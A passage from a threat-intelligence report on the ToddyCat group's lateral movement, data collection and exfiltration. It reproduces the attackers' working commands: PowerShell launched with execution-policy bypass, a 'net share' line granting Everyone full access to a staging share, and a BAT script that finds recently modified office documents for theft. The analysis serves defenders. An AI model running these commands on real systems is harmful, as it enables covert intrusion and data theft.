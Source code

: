 c:\users\public\%SCRIPT_NAME%.bat

"cmd" /c start /b powershell.exe -exec bypass ". "c:\users\public\%SCRIPT_NAME%.ps1"" > c:\users\public\d




12345

cmd /c start /b powershell.exe -exec bypass -c "c:\programdata\intel\%SCRIPT_NAME%.ps1" %INTEGER% c:\users\public\%SCRIPT_NAME%.bat "cmd" /c start /b powershell.exe -exec bypass ". "c:\users\public\%SCRIPT_NAME%.ps1"" > c:\users\public\d




The group reuses the same task names for the same session; such names are usually chosen to arouse less suspicion, such as “one” and “tpcd”, while script names can vary from two to four random keyboard-walking characters with higher entropy.
At the end of the activity, a temporary share is mounted and then deleted on the exfiltration host:


PowerShell


net share tmp=c:\windows\debug /grant:everyone,full
net share tmp /del /y




12

net share tmp=c:\windows\debug /grant:everyone,fullnet share tmp /del /y




Data collection and exfiltration
As mentioned in the previous section, once the target of interest has been identified, the collection phase begins. The threat actor usually collects files from many different hosts and stores them in archives that are then exfiltrated from the targeted network using public file storage services.

Data theft scheme
We have already described some tools, such as LoFiSe, specifically developed to identify and collect files of interest, but during the investigation we also discovered other scripts used by ToddyCat to enumerate the files on the targeted host’s disks using WMI and collect recently modified documents having .pdf, .doc, .docx, .xls and .xlsx extensions.
In these cases, compression is performed using tools such as 7zip or the RAR utility; the specific tools are likely chosen based on what is already available within the infrastructure. Unlike LoFiSe, the collection scripts store the paths of the enumerated documents in a plain text TXT file. Document compression can be done directly on the target host or on the exfiltration host.
Below is the content of a BAT script that was run on the target hosts:


PowerShell


@echo off
mkdir c:\users\public\tmp_ >nul 2>nul
powershell.exe "Get-Wmiobject -Class Win32_logicaldisk | where size -gt 0 | select-object -ExpandProperty DeviceID >> c:\users\public\tmp_\disk.txt"
powershell.exe "get-content c:\users\public\tmp_\disk.txt | foreach {if ($_ -eq \"C:\"){dir \users  -Exclude "tmp_" | %%{dir $_.FullName -File -Recurse -Include '*.pdf', '*.doc', '*.docx', '*.xls', '*.xlsx' | where LastWriteTime -gt (Get-date).AddDays(-4) | %%{$_.FullName} >> c:\users\public\tmp_\ph.txt} } else{dir $_\ -File -Recurse -Include '*.pdf', '*.doc', '*.docx', '*.xls', '*.xlsx' | where LastWriteTime -gt (Get-date).AddDays(-20) | %%{$_.FullName} >> c:\users\public\tmp_\ph.txt}}"
